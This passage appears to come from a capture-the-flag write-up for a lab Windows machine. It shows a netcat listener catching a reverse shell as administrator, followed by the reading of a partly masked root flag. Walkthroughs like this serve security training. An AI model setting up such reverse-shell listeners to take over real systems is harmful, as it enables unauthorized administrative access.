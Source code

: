 

At `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 58565
    Microsoft Windows [Version 10.0.19043.1266]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    hancliffe\administrator



And I can grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    3a0478e0************************







